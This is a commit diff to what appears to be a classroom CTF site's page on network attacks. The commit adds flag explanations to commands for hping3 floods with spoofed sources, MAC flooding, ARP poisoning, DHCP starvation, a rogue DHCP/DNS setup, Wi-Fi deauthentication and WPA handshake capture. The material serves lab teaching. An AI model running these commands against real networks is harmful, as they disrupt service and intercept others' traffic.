

Before and after one commit to jboyce1/ppsCTF, a Jekyll site: the page built from classes/cyberus/cyberus.md, in a window 1280 px wide and 1400 px high, scrolled down 1369 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update cyberus.md

````diff
--- a/classes/cyberus/cyberus.md
+++ b/classes/cyberus/cyberus.md
@@ -31,6 +31,17 @@ Large packet flood:
 Using hping3:
 #### `sudo hping3 --flood --icmp <target_ip>`
 
+**Flag Notes**
+- `-f` → sends packets as fast as possible
+- `-s` → changes packet size
+- `--icmp` → chooses ICMP protocol
+- `--flood` → removes delay between packets
+
+Try changing:
+- packet size
+- protocol
+- target
+
 ---
 
 ## SYN Flood
@@ -41,12 +52,30 @@ Flood a service port (example: SSH):
 More aggressive:
 #### `sudo hping3 -S --flood --rand-source -p 22 <target_ip>`
 
+**Flag Notes**
+- `-S` → sends SYN packets (start of TCP connection)
+- `-p` → chooses port
+- `--rand-source` → spoofs source IP
+- `--flood` → sends continuously
+
+Try changing:
+- port number
+- adding or removing spoofing
+
 ---
 
 ## UDP Flood
 
 Flood a UDP port:
 #### `sudo hping3 --flood --udp -p 53 <target_ip>`
+
+**Flag Notes**
+- `--udp` → uses UDP protocol
+- `-p` → target port
+- `--flood` → continuous send
+
+Try changing:
+- ports commonly used by services
 
 ---
 
@@ -57,6 +86,13 @@ Install tool:
 
 Run:
 #### `sudo macof -i <interface>`
+
+**Flag Notes**
+- `-i` → selects network interface
+- Tool generates large numbers of fake MAC addresses
+
+Try changing:
+- interface
 
 ---
 
@@ -76,6 +112,16 @@ Terminal 1:
 Terminal 2:
 #### `sudo arpspoof -i <interface> -t <gateway_ip> <target_ip>`
 
+**Flag Notes**
+- `-i` → interface used
+- `-t` → target being poisoned
+- Last IP → system you are impersonating
+
+What is happening:
+1. Tell victim you are gateway
+2. Tell gateway you are victim
+3. Traffic flows through attacker
+
 ---
 
 ## Ettercap ARP Poisoning (GUI)
@@ -97,6 +147,15 @@ Steps:
 Using nemesis:
 #### `sudo apt install -y nemesis`
 #### `sudo nemesis arp -v -d <target_ip> -S <fake_ip> -h <fake_mac>`
+
+**Flag Notes**
+- `-d` → destination
+- `-S` → spoofed sender IP
+- `-h` → spoofed MAC
+- `-v` → verbose output
+
+Try changing:
+- spoofed values
 
 ---
 
@@ -113,6 +172,11 @@ Run interactive mode:
 Steps:
 1. Select DHCP
 2. Launch starvation attack
+
+**What is happening**
+- Many fake clients request addresses
+- Pool runs out
+- Real clients cannot obtain IP
 
 ---
 
@@ -133,8 +197,14 @@ dhcp-option=3,<fake_gateway_ip>
 dhcp-option=6,<fake_dns_ip>
 ```
 
+
 Restart:
 #### `sudo systemctl restart dnsmasq`
+
+**What the options mean**
+- `dhcp-range` → addresses handed out
+- `option 3` → gateway given to clients
+- `option 6` → DNS server given to clients
 
 ---
 
@@ -166,6 +243,14 @@ Record:
 
 Deauth entire AP:
 #### `sudo aireplay-ng --deauth 50 -a <bssid> wlan0mon`
+
+**Flag Notes**
+- `--deauth` → number of packets sent
+- `-a` → access point
+- `-c` → client
+
+Try changing:
+- packet count
 
 ---
 
@@ -176,6 +261,10 @@ Install:
 
 Run:
 #### `sudo mdk4 wlan0mon d -B <bssid>`
+
+**Flag Notes**
+- `d` → deauth mode
+- `-B` → target AP
 
 ---
 
@@ -188,6 +277,11 @@ Start capture:
 
 Leave running.
 
+**Flag Notes**
+- `-c` → channel
+- `--bssid` → target AP
+- `-w` → output file
+
 ---
 
 ## Force reconnect to capture handshake
@@ -195,9 +289,7 @@ Leave running.
 #### `sudo aireplay-ng --deauth 10 -a <bssid> wlan0mon`
 
 Watch for:
-```
 WPA handshake: <bssid>
-```
 
 ---
 
@@ -211,6 +303,10 @@ capture.csv
 
 Open:
 #### `wireshark capture.cap`
+
+**What you are verifying**
+- Handshake packets present
+- Correct network
 
 ---
 
````
Also changed, not shown: other parts of classes/cyberus/cyberus.md (+17 -0 lines).
